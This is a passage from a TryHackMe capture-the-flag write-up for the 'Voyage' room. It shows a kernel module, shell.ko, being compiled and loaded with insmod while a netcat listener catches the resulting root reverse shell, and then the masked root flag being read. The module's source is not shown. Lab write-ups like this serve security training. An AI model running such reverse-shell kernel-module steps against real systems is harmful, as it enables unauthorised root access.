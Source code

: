 <h2>shell.ko compiling</h2>

```bash
root@d221f7bc7bf8:/tmp# ls
Makefile  shell.c
```

```bash
root@d221f7bc7bf8:/tmp# make
```

<h2>Listener</h2>

```bash
:~/Voyage# nc -nlvp 5555
Listening on 0.0.0.0 5555
```

<h2>shell.ko installation</h2>

```bash
root@d221f7bc7bf8:/tmp# insmod shell.ko
```

<h3>Shell as Root</h3>

```bash
:~/Voyage# nc -nlvp 5555
Listening on 0.0.0.0 5555
...
root@tryhackme-2404:/# id
uid=0(root) gid=0(root) groups=0(root)
root@tryhackme-2404:/# pwd
/
root@tryhackme-2404:/# cd /root
root@tryhackme-2404:/root# ls
root.txt
snap
root@tryhackme-2404:/root# cat root.txt
THM{********************************}
```

<br>
<p>1.2. What is the value of the root-level flag?<br>
<code>THM{********************************}</code></p>
<br>
<br>
<h1 align="center">Completed</h1>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/02f981c5-0633-4f58-a37b-37004bac7a3d"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/e7b25ed6-882f-4b94-ad32-c40b4c18a6a6"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/a1d2c89b-7411-4fcc-a91e-8b9bd9caa33d"></p>


<br>
<h1 align="center">My TryHackMe Journey</h1>

<div align="center">
